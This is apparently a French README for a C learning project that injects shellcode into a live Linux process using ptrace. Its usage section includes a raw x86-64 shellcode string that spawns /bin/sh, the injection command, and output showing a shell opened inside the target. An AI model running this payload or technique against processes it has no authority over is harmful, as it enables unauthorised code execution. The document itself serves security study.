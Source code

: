 ```
   ___            _                 _  _____        _           _   _             
  / _ \__ _ _   _| | ___   __ _  __| | \_   \_ __  (_) ___  ___| |_(_) ___  _ __  
 / /_)/ _` | | | | |/ _ \ / _` |/ _` |  / /\/ '_ \ | |/ _ \/ __| __| |/ _ \| '_ \ 
/ ___/ (_| | |_| | | (_) | (_| | (_| /\/ /_ | | | || |  __/ (__| |_| | (_) | | | |
\/    \__,_|\__, |_|\___/ \__,_|\__,_\____/ |_| |_|/ |\___|\___|\__|_|\___/|_| |_|
            |___/                                |__/                             
```

# Injection de shellcode dans un processus distant avec ptrace

Ce projet est un exercice en C permettant d’injecter du shellcode dans un processus Linux en utilisant la syscall `ptrace`.

## Description

Le programme s’attache à un processus cible via son PID, lit les registres pour récupérer l’adresse d’instruction courante (RIP), sauvegarde le code original à cette adresse, injecte le shellcode dans la mémoire du processus, reprend son exécution pour exécuter ce shellcode, puis restaure le code original avant de se détacher proprement.

Ce mécanisme est une illustration des techniques d’injection et d’exploitation sous Linux.

## Fonctionnalités

* Attachement au processus cible via `PTRACE_ATTACH`
* Lecture et écriture mémoire avec `PTRACE_PEEKDATA` / `PTRACE_POKEDATA`
* Manipulation des registres grâce à `PTRACE_GETREGS`
* Injection et exécution du shellcode
* Restauration de l’état initial du processus
* Détachement propre avec `PTRACE_DETACH`

## Utilisation

```bash
./injection 453192 "$(echo -ne '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05')"
[*] Attaching to PID 453192...
[*] Reading registers...
[*] Backing up original code at 0x7fdf1ed08687
[*] Injecting payload...
[*] Continuing execution...
[*] Restoring original code...
[*] Detaching...
[+] Injection complete.

./target 
Target alive...
Target alive...
Target alive...
Target alive...
Target alive...
Target alive...
$ ls
injection  injection.c  target  target.c
$
```

## Remerciements

Ce projet m’a beaucoup aidé à comprendre les fondamentaux de l’injection avec ptrace, notamment grâce à cet excellent article :
[https://cocomelonc.github.io/linux/2024/11/22/linux-hacking-3.html](https://cocomelonc.github.io/linux/2024/11/22/linux-hacking-3.html)

---

## Avertissement

Ce programme doit être utilisé uniquement dans un cadre légal et éthique, sur des processus dont vous avez la permission d’interagir.

---